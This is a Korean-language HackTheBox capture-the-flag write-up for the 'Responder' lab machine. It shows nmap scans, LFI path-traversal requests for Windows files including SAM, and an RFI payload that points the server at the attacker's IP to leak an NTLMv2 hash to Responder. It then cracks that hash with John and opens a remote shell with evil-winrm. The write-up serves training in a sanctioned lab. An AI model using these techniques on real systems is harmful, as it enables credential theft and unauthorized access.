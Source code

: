 ```yaml
---
title: HTB Responder Write-up
categories: [HackTheBox, StartingPoint]
tags: [HackTheBox, WinRM, Evil-WinRM, wsman, LFI, RFI]
image:
    path: /assets/image_post/20240206200539.png
---
```


대상 서버 nmap 스캔 결과는 아래와 같다. (동일한 인자를 줬지만 kali에선 되고 mac에선 되지 않았다...왜그럴까..)
``` bash
# nmap 10.129.2.235 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-05 14:03 UTC
Nmap scan report for 10.129.2.235
Host is up (0.51s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 197.03 seconds
```

80 port로 접근가 열려있는 것을 확인할 수 있으며, 접근 시 아래와 같이 .htb 사이트로 이동된다.

``` bash
# curl 10.129.73.133
<meta http-equiv="refresh" content="0;url=http://unika.htb/">#
```

하지만 이동 된 후 아무 페이지를 찾을 수 없다는 내용만 존재하여, 다양한 시도를 해보았으나 문제를 풀 수가 없었다.
![](../assets/image_post/20240207174302.png)

알고 보니 해당 증상은 문제가 있는 것으로 아래와 같이 hosts 파일을 수정해주어야 정상적으로 사이트에 접근된다.
``` bash 
sudo vi /etc/hosts

# 아래 IP는 각자 발급 받은 Machine의 IP 입력 필요
10.129.73.133    unika.htb
```

수정 후 사이트에 접근하면 정상적으로 접근되는 것을 확인 할 수 있다.
![](../assets/image_post/20240207174736.png)

문제를 풀던 중 아래 문제의 답이 도저히 나오지 않아 결국 타 공략을 보았다. NT Lan Manager가 많이 나와 왜 글자 수가 다르지? 생각했지만, NT도 줄임말이여서 그런 것이였다...괜히 패배한 기분이다.
![](../assets/image_post/20240207175049.png)

해당 사이트의 국가별 언어를 변경하면 아래 그림과 같이 page 파라미터에 인자를 받아온 것을 알 수 있다. 
![](../assets/image_post/20240207233736.png)

파일 명을 지정하고 있으므로 LFI와 RFI를 테스트해보았다. 지정한 경로는 문제에서 예시로 들어준 경로이다.
``` bash
 read-min 🎉   ~  curl http://unika.htb/index.php\?page\=../../../../../../../../windows/system32/drivers/etc/hosts

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```
주요 파일에 대해서도 접근이 되는지 테스트 해보았으나, "Permission denied"가 반환되는 것을 알 수 있다.
``` bash
 ⚡ read-min 🔑   ~  curl http://unika.htb/index.php\?page\=../../../../../../../../../../../../Windows/System32/config/SAM
<br />
<b>Warning</b>:  include(../../../../../../../../../../../../Windows/System32/config/SAM): Failed to open stream: Permission denied in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '../../../../../../../../../../../../Windows/System32/config/SAM' for inclusion (include_path='\xampp\php\PEAR') in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
```
<br/>

아래는 RFI를 테스트한 결과이다. 아래의 결과처럼 존재하지 않는 파일에 대해선 "No such file"가 반환된다.
``` bash
 ⚡ read-min 🔑   ~  curl http://unika.htb/index.php\?page\=//10.10.14.6/somefile
<br />
<b>Warning</b>:  include(\\10.10.14.6\SOMEFILE): Failed to open stream: No such file or directory in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '//10.10.14.6/somefile' for inclusion (include_path='\xampp\php\PEAR') in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
```

테스트 환경이 MacOS다보니, 큰 난항을 겪었다. 다양한 테스트를 하다가 responder라는 툴을 사용해야한다는 것을 알게 되어, MacOS에서 Kali Docker Image를 통해 해보려했으나, VPN 설정 등의 문제로 계속 실패했다. 결국 Kali Linux 이미지로 vm 환경 구성 후 해결하였다.


대상 서버에서 RFI가 되고 있으므로, 아래와 같이 responder를 사용할 수 있다. responder는 로컬 네트워크에서 인증 정보(Credentials) Hash를 획득하기 위해 사용하는 도구이다. 실행 시 인터페이스 지정이 필요한데, 문제를 풀기 위해선 responder를 실행할 환경에서 openvpn으로 htb 연결 후, 해당 인터페이스를 지정해야한다. 아래의 경우 'tun0'가 openvpn을 연결했을때의 인터페이스이므로 지정했다.

``` bash
┌──(root㉿kali)-[/home/user]
└─# responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

...

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.15.52]
    Responder IPv6             [dead:beef:2::1132]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-B9AFQUY0GZQ]
    Responder Domain Name      [C7CK.LOCAL]
    Responder DCE-RPC Port     [48210]

[+] Listening for events...
```

responder 실행 후 `Responder IP [10.10.15.52]`인 것을 알 수 있으며, 대상 서버에서 접근 시 아래와 같이 출력되는 것을 볼 수 있다. 

![](../assets/image_post/20240213144459.png)

실패했다고 나오지만 responder를 실행한 콘솔에서는 아래와 같이 hash 값을 획득 할 수 있다.

``` bash
[SMB] NTLMv2-SSP Client   : 10.129.247.175
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:368█████16576129:9CF51B█████003FB9FE█████33CC83CC:01█████00000000000E9A590145EDA011E0554C0DF8566AE00000000020008004300370043004B0001001E00570049004E002D004200390041004600510055005900█████7005A00510004003400570049004E002D0█████390041004600510055005900300047005A0051002E004300370043004B█████04C004F00430041004C00030014004█████0043004B002E004C004F00430041004C00050014004300370043004B002E004C004F004300410█████0700080000E9A590145EDA01060004█████00000080030003000000000000000010000000020000045D2FE32AD51D3█████B822C1D368273015B1E5DD4171CC96AFCF06DA789F1AA0█████000000000000000000000000000000000009002000█████900660073002F00310030002E00310030002E00310035002E00350032000000000000000000
``` 

수집된 정보는 `/usr/share/responder/logs` 경로에 `SMB-NTLMv2-SSP-10.129.247.175.txt`와 같은 형태로 저장된다. 해당 파일을 갖고 John the Riper를 통해 패스워드에 대한 크랙을 할 수 있다.

``` bash
┌──(root㉿kali)-[/home/user]
└─# johnjohn --format=netntlmv2 /usr/share/responder/logs/SMB-NTLMv2-SSP-10.129.247.175.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with 3 different salts (1.3x same-salt boost) (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
0g 0:00:04:15  3/3 0g/s 804383p/s 2413Kc/s 3217KC/s gmcn91..gmbgbc
0g 0:00:04:29  3/3 0g/s 803137p/s 2409Kc/s 3212KC/s 1582mg1..158p1mo
0g 0:00:11:25  3/3 0g/s 814773p/s 2444Kc/s 3259KC/s wrmt3s..wrdouz
0g 0:00:24:48  3/3 0g/s 821610p/s 2464Kc/s 3286KC/s pyeph86..pyep11k
████████n        (Administrator)
4g 0:00:33:47 DONE 3/3 (2024-02-13 02:25) 0.001972g/s 818862p/s 2457Kc/s 3276KC/s badgoom10..badmikuth
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

이제 Administrator 계정과 패스워드를 알고 있으므로 원격 쉘을 붙일 수 있는지 테스트해보자. WinRM 서비스에 대한 공격을 진행할 것이다. 대상 기본 포트는 5985이다. 기본 scan에서는 보이지 않아 port를 지정하여 스캔하였다.
``` python
┌──(root㉿kali)-[/home/user]
└─# nmap -sC -sV 10.129.16.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:44 EST
Nmap scan report for 10.129.16.102
Host is up (0.26s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1


┌──(root㉿kali)-[/home/user]
└─# nmap 10.129.16.102 -p 5985
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:50 EST
Nmap scan report for 10.129.16.102
Host is up (0.31s latency).

PORT     STATE SERVICE
5985/tcp open  wsman
```

wsman은 ws-management를 뜻하며, winrm 서비스가 정상 동작하고 있음을 뜻한다. 이제 evil-winrm을 통해 쉘을 획득해보자.
``` bash
┌──(root㉿kali)-[/home/user]
└─# evil-winrm -i 10.129.247.175 -u Administrator -p ████████

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
responder\administrator
```

쉘 획득 후 대상 서버의 파일을 조사하다보면 flag.txt가 있음을 확인 할 수 있다.
``` bash
*Evil-WinRM* PS C:\Users\mike> cd Desktop
*Evil-WinRM* PS C:\Users\mike\Desktop> dir


    Directory: C:\Users\mike\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt


*Evil-WinRM* PS C:\Users\mike\Desktop> type flag.txt
ea8█████ddd03e█████45333█████fac
```

드디어 해당 문제를 풀었다. hosts 파일 수정, openvpn 문제, winRM에 대한 개념 부재 등으로 이번 문제는 푸는데 시간이 꽤 걸렸다.
![](../assets/image_post/20240213175415.png)

